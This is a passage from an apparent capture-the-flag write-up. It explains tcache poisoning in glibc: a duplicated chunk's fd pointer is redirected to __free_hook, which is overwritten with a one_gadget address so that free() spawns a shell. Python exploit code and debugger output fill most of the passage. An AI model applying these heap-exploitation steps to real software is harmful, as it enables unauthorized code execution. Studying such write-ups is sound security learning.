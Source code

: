 * The tcache bin can be visualised as follows:

```c
tcachebin[0x1d0] <- chunk B <- chunk B
```

* We allocate a chunk of size 0x1d8 again, which gives us back one of the chunks from the 0x1d0 sized tcache bin.

```python
# Add one of them, change its fd to __free_hook
add(0x1d8) # idx 0
```

* The tcache bin now looks like the following:

```c
tcachebin[0x1d0] <- chunk B
```

* We set chunk B's `fd` pointer to the address of `__free_hook`. 

```python
talk(0, p64(free_hook) + '\n')
```

* The tcache bin now looks like this:

```c
tcachebin[0x1d0] <- chunk B <- &__free_hook
```

* We do two more mallocs of size 0x1d8, where the first malloc gives us chunk B from the tcache bin, and the second malloc gives us a chunk right on top of `__free_hook`.

```python
# Two more chunks and we get a chunk on __free_hook
add(0x1d8) # 1, overlapped chunk with chunk B again
add(0x1d8) # 2, chunk on __free_hook
```

* We then overwrite that chunk on `__free_hook` with the address of our one_gadget:

```python
# Overwrite __free_hook with one_gadget
talk(2, p64(one_gadget) + '\n')
```

```c
gef➤  x/10gx 0x7f7e28fc08e8
0x7f7e28fc08e8 <__free_hook>:   0x00007f7e28c22322      0x0000000000000000
...
```

* Finally, we call `free()` one more time, which calls the function pointed to by `__free_hook`, which is our one gadget, thus giving us a shell.

```python
# Trigger __free_hook which gives us shell
free(1)

p.interactive()
```
